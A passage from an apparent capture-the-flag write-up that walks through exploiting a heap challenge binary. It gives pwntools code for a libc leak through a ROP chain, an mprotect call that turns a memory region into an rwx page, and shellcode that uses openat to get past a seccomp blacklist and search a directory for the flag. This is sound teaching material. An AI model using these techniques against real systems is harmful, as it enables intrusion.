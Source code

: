 ### Moving to rwx

There aren't a lot of gadgets in the main binary, so it might be better to leak libc first.

```python
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
```

Once that's done, I can abuse gadgets in libc to convert the `mound_data` memory region into an rwx page:

```python
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
```

This only makes sense if `mound_data.shellcode` actually points to an area of user-written shellcode. I handled this by writing shellcode to `mound_data` using `add()`, long before the mcache dup happens:

```python
# ... everything up until the first few add() calls ...
sc = ... # I'm about to cover this part.
sc = asm(sc) # don't call asm() twice
add(len(sc), 8, sc) # dump shellcode somewhere in mound_data for later use
# ... everything else, e.g. getting mcache dup ...
```

Figuring out _what_ shellcode to run isn't too difficult, if you have a [syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) in hand. This challenge shows why you shouldn't use a seccomp blacklist: `open` might be banned, but [openat](https://linux.die.net/man/2/openat) certainly isn't. I'll start off with some shellcode to open the `/pwn/` folder:

```python
sc = shellcraft.pushstr('/pwn')
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY)
sc+= 'mov QWORD PTR [{}], rax\n'.format(0xbeef0000000)
sc+= shellcraft.getdents64('rax', 0xbeef0010000, 0x10000) # use getdents() to list a directory
```

After that, I'll apply a basic assembly loop to search for `.txt`:

```python
sc+= shellcraft.mov('rax', 0xbeef0010000)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(u32('.txt'))
sc+= 'jne loop\n'
# End result: *(int*)rax == u32(".txt")
```
